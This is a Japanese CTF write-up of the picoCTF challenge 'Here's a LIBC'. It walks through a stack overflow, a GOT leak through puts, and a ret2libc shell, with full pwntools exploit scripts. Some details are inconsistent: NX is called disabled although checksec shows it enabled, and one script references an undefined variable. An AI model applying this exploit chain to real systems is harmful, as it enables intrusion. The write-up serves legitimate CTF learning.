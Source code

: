 ```yaml
---
title: picoCTFのPwn問をぼちぼち解いていくメモ 
date: "2022-03-15"
template: "post"
draft: true
slug: ""
category: ""
tags:
  - ""
  - ""
  - ""
description: ""
socialImage: "/media/cards/no-image.png"


---
```


<!-- omit in toc -->

## もくじ



## Here's a LIBC

親切にもバイナリとライブラリを提供してくれたと思ったらまた実行できないパターンでした。

``` bash
LD_PRELOAD=./libc.so.6 ./vuln 
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

というわけでpwninit使ってリンカを取得し、無事に実行ができるようになりました。

実行してみると、エコーサーバーのようになっているようです。

適当に入力値を増やしてみたところセグフォが発生したので、BOFの脆弱性がありそうです。

![image-20220715194106287](../static/media/2022-03-15-ctf-pico-pwn-archived/image-20220715194106287.png)

Ghidraでデコンパイルしてみると、`main`関数から呼び出される以下の`do_stuff`関数がエコーサーバの処理になっていることがわかりました。

つまりここにBOFの脆弱性が存在しています。

![image-20220715194314741](../static/media/2022-03-15-ctf-pico-pwn-archived/image-20220715194314741.png)

pedaのコマンドで確認してみると、PIEは無効化されていることがわかります。

``` bash
$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

また、エコーサーバへの入力値が格納されるスタックのアドレスは`0x7fffffffdd40`であり、rbpは`0x7fffffffddc0`でした。

つまり、差分の128+8バイトの文字列を入力として与えれば、以降の入力値で関数の戻り値をインジェクションできそうです。

今回はNXが無効なようなので、ひとまずpedaでpltを探索してみました。

``` bash
$ plt
Breakpoint 2 at 0x400580 (__isoc99_scanf@plt)
Breakpoint 3 at 0x400570 (getegid@plt)
Breakpoint 4 at 0x400540 (puts@plt)
Breakpoint 5 at 0x400560 (setbuf@plt)
Breakpoint 6 at 0x400550 (setresgid@plt)
```

systemのpltは無いようなので、ret2libcを使ってlibcのアドレスをリークさせて直接ジャンプしたいと思います。

ここで、ROPgadgetを使ってみると、以下のガジェットが使えそうなことがわかりました。

``` bash
$ ROPgadget --binary vuln
0x0000000000400913 : pop rdi ; ret
```

これを利用して、とりあえず以下のような入力値を用意することでscanf関数のgotをリークさせることができます。

``` bash
$ python -c 'import sys; sys.stdout.buffer.write(b"A"*128 + b"B"*8 + b"\x13\x09\x40\x00\x00\x00\x00\x00" + b"\x38\x10\x60\x00\x00\x00\x00\x00" + b"\x69\x07\x40\x00\x00\x00\x00\x00" )' > input
```

このままでは使いづらいので、pwntoolを使って書き直してみました。

``` python
from pwn import *
import binascii
import time

elf = ELF("./vuln")
context.binary = elf

puts_plt = 0x400540
got_plt_scanf = 0x601038
rop_rdi_ret = 0x400913

# Local
p = process("./vuln")

# Remote
# p = remote("bof.pwn.wanictf.org", 9002)

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(rop_rdi_ret)
payload += p64(got_plt_puts)
payload += p64(puts_plt)

r = p.recvline()
p.sendline(payload)
r = p.recvline()

leakaddr = u64(p.recvline().rstrip().ljust(8, b"\x00"))
print(hex(leakaddr))
```

これでリークしたアドレスを利用してlibcのオフセットを特定しました。

![image-20220719191646337](../static/media/2022-03-15-ctf-pico-pwn-archived/image-20220719191646337.png)

最終的なSolverはこちら。

``` python
from pwn import *
import binascii
import time

elf = ELF("./vuln")
context.binary = elf

puts_plt = 0x400540
got_plt_scanf = 0x601038
rop_rdi_ret = 0x400913
ret = 0x40052e
main = 0x400771

# Local
p = process("./vuln")

# Remote
p = remote("mercury.picoctf.net", 42072)

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(rop_rdi_ret)
payload += p64(got_plt_scanf)
payload += p64(puts_plt)
payload += p64(main)

r = p.recvline()
p.sendline(payload)
r = p.recvline()

leakaddr = u64(p.recvline().rstrip().ljust(8, b"\x00"))
# print(hex(leakaddr))

base_addr = leakaddr - 0x07bf30
system_addr = base_addr + 0x04f4e0
str_bin_sh = base_addr +  0x1b40fa

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(ret)
payload += p64(rop_rdi_ret)
payload += p64(str_bin_sh)
payload += p64(system_addr)

r = p.recvline()
p.sendline(payload)
p.interactive()
```























